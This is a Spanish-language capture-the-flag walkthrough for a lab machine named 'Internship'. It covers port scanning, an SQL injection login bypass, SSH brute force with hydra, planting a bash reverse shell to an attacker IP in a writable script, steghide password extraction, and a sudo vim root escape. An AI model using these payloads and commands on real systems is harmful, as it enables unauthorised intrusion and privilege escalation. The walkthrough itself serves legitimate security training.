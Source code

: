 ```yaml
---
description: '✍️ Autor: s1egfr1ed🔍 Dificultad: Fácil 📅 Fecha de creación: 13/02/2025'
---
```


# Internship

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Viendo el código fuente encontramos un dominio por lo que lo añadimos al `/etc/hosts`.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-26 193843.png" alt=""><figcaption></figcaption></figure>

Recargamos la página y pulsamos a Iniciar Sesión. Al ser un panel de Login realizamos el típico bypass para probar.

```
' or 1=1 -- -
' or 1=1 -- -
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay unos usuarios por lo que ponemos los nombres en un archivo para realizar fuerza bruta. Nos falta la contraseña por lo que seguimos indagando por lo que escaneamos los directorios.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención de un directorio llamado `/spam`. A primera vista nos sale vacío pero revisamos el código fuente.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Parece que contiene información relevante pero esta en ROT13.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-26 195359.png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Ahora sí tras descubrir la contraseña hacemos fuerza bruta.

```
hydra -L usuarios -p purpl3 -I ssh://172.17.0.2 
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión con las credenciales.

```bash
ssh pedro@172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos **SUDO**.

Dentro del directorio `/opt`, encontramos el script `log_cleaner.sh`, el cual pertenece al usuario `valentina` y tiene permisos de lectura, escritura y ejecución para su propietario, así como permisos de lectura y escritura para otros usuarios.

```bash
#!/bin/bash
bash -i >& /dev/tcp/172.17.0.1/445 0>&1
```

Nos ponemos en escucha.

```
nc -nlvp 445
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay una imagen por lo que nos la traemos a nuestra máquina para realizar la técnica de esteganografía.

```bash
mv profile_picture.jpeg /tmp
chmod 0777 /tmp/profile_picture.jpeg
```

En nuestra máquina local.

```bash
scp pedro@172.17.0.2:/tmp/profile_picture.jpeg .
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

Usamos la herramienta de **Steghide**.

```
steghide extract -sf profile_picture.jpeg
```

Miramos el contenido del archivo.

<figure><img src="../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

Será la contraseña de valentina.

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/vim/#sudo" %}

```bash
sudo vim -c ':!/bin/sh'
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>
